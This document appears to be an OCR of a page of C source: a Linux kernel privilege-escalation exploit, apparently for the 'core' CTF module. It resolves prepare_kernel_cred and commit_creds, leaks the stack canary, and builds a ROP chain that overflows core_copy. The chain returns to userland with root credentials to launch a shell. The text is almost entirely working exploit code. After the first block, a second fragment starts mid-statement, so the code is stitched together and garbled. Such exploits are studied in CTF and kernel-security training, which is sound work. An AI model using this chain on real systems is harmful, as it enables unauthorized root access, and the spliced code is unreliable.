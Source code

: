 ```c
        if (prepare_kernel_cred && commit_creds) {
            break;
        }

        if (!prepare_kernel_cred && strcmp(name, "prepare_kernel_cred") == 0) {
            prepare_kernel_cred = addr;
            printf("\033[33m\033[1m[√] Found prepare_kernel_cred: %lx\033[0m\n", prepare_kernel_cred);
        }

        if (!commit_creds && strcmp(name, "commit_creds") == 0) {
            commit_creds = addr;
            printf("\033[33m\033[1m[√] Found commit_creds: %lx\033[0m\n", commit_creds);
        }
    }

    offset = commit_creds - 0x9c8e0 - 0xffffffff81000000;
    core_set_offset(fd, 64);
    core_read(fd, name);
    canary = ((size_t *)name)[0];
    printf("\033[34m\033[1m[*] offset: 0x%lx\033[0m\n", offset);
    printf("\033[33m\033[1m[√] Canary: %lx\033[0m\n", canary);

    for (i = 0; i < 10; i++) rop[i] = canary;
    rop[i++] = POP_RDI_RET + offset;
    rop[i++] = 0;
    rop[i++] = prepare_kernel_cred;
    rop[i++] = POP_RDX_RET + offset;
    rop[i++] = POP_RCX_RET + offset;
    rop[i++] = MOV_RDI_RAX_CALL_RDX + offset;
    rop[i++] = commit_creds;
    rop[i++] = SWAPGS_POPFQ_RET + offset;
    rop[i++] = 0;
    rop[i++] = IRETQ + offset;
    rop[i++] = (size_t)shell;
    rop[i++] = user_cs;
    rop[i++] = user_rflags;
    rop[i++] = user_sp;
    rop[i++] = user_ss;

    write(fd, rop, 0x100);
    core_copy(fd, 0xffffffffffff0000 | (0x100));

}
```offset;
rop[i++] = commit_creds;
rop[i++] = SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE + offset;
rop[i++] = 0;
rop[i++] = 0;
rop[i++] = (size_t)shell;
rop[i++] = user_cs;
rop[i++] = user_rflags;
rop[i++] = user_sp;
rop[i++] = user_ss;

write(fd, rop, 0x100);
core_copy(fd, 0xffffffffffff0000 | (0x100));
}
```
